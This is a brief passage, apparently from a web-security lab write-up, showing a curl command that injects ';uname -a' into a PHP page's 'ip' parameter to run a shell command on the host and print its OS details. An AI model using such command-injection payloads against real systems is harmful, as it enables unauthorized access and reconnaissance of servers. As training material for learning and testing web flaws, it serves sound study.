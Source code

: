 #Curl

### This will print the OS and architecture of the web application host.
```
curl http://<IP>/<Subdirectory>/example1.php?ip=";uname%20-a" 2>&1 | awk '/<pre>/{flag=1;next}/pre>/{flag=0}flag'
```

